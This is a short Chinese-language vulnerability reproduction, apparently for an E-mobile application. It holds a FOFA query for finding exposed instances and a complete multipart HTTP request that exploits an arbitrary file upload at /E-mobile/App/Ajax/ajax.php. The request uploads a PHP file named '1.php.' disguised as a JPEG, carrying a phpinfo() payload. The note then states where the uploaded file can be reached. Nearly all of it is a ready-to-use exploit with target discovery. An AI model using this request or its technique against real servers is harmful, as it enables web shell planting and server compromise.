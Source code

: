 <a name="NpLPF"></a>
# 一、fofa搜索语法
```java
body="/newplugins/js/pnotify/jquery.pnotify.default.css"
```
<a name="TNcUl"></a>
# 三、漏洞复现
请求接口上传任意文件
```java
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host: your-ip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
Content-Length: 350

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="upload_quwan"; filename="1.php."
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719240352786-a3725668-6df0-45d2-a23b-2fa5811cff21.png#averageHue=%23fbfbfb&clientId=ud521e60a-9dae-4&from=paste&height=518&id=u66fee27d&originHeight=647&originWidth=1507&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=115847&status=done&style=none&taskId=uff74b4a2-b292-43e3-989f-1a0cd193097&title=&width=1205.6)<br />文件访问地址为回显中的/attachment/xxxxxx/1.php<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719240527145-cea0ef34-97b2-4764-8658-20ea3aeb77cd.png#clientId=ud521e60a-9dae-4&from=paste&height=715&id=u698c9c9e&originHeight=894&originWidth=1537&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=122229&status=done&style=none&taskId=ufe5b5554-1f11-4084-a72a-1aaa1e60483&title=&width=1229.6)<br />证明存在漏洞








